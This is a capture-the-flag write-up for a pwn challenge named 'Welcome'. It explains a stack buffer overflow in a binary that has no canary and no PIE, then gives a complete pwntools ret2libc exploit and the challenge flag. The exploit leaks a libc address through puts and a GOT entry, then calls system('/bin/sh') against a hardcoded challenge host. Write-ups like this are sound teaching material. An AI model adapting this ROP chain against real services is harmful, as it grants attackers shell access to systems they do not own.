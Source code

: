 # Welcome

## Challenge

We are given a binary an a glibc.

The binary disables buffering, prints a welcome message, then reads our input into a buffer.

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## Solution

There is a buffer overflow vulnerability as the program reads more characters than the buffer can safely store.

As PIE is disabled and there is no canary, we can easily use the buffer overflow vulnerability to leak the libc address by calling `puts` on a GOT entry.
We then return to the vulnerable code for a second stage ropchain.

Once we have the libc address, we can use the second stage to call `system("/bin/sh")`, using libc functions.
This will spawn a shell and allow us to read the flag.

## Exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host 20.216.39.14 --port 1237 welc
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('welc')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or '20.216.39.14'
port = int(args.PORT or 1237)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

libc = ELF('libc.so.6')

io = start()

rop = ROP(exe)
rop.call('puts', [exe.got['puts']])
rop.call('main')

io.sendlineafter(
        b"Zied likes degla b zbib ! what about you ?\n",
        flat({
            0x80+8: rop.chain(),
        })
    )

libc.address = unpack(io.recvuntil(b"\n", drop=True).ljust(8, b'\x00')) - libc.sym['puts']
io.info("LIBC: " + hex(libc.address))

rop = ROP(libc)
rop.raw(rop.ret)
rop.call('system', [next(libc.search(b"/bin/sh"))])

io.sendlineafter(
        b"Zied likes degla b zbib ! what about you ?\n",
        flat({
            0x80+8: rop.chain(),
        })
    )

io.interactive()
```

## Flag

```
Securinets{5d91d2e01b854fd457c1d8b592a19b38af6b4a33c6362b7d}
```
